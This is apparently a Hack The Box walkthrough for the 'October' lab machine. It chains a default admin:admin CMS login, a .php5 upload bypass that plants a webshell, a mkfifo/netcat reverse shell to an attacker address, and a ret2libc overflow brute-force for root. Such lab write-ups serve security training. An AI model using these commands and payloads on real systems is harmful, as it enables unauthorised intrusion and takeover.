# [October](https://app.hackthebox.com/machines/october/)

```bash
nmap -p- --min-rate 10000  10.10.10.16 -Pn
```



Now, we know that (22,80) ports are open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.10.16 -Pn
```




Let's enumerate HTTP (port 80) of our target.

I see that it is '**October CMS**' application.




After enumeration for October CMS that I find [that](https://octobercms.com/forum/post/how-do-i-access-the-backend) administration page of this CMS is located on '/**backend**' endpoint.




Here, I tried default credentials 'admin:admin' that worked.




Let's search publicly known exploit for **'October CMS'**.

I find [this](https://www.exploit-db.com/exploits/41936) which give me Remote Code Execution via File Upload bypass.



Let's go to 'Media' tab, click 'Upload' button and your reverse shell php file via '.**php5**' extension.






After uploading, it's time to browse our webshell.

```bash
curl http://10.10.10.16/storage/app/media/dr4ks.php5?cmd={your_command}
```




Let's add our reverse shell into command section.

```bash
curl http://10.10.10.16/storage/app/media/dr4ks.php5 --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 1337 >/tmp/f"
```



I got reverse shell from (port 1337)




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```



user.txt




I write below payload to be root user.

```bash
while true; do /usr/local/bin/ovrflw $(python -c 'print "\x90"*112 + "\x10\x83\x63\xb7" + "\x60\xb2\x62\xb7" + "\xac\xab\x75\xb7"'); done
```

root.txt

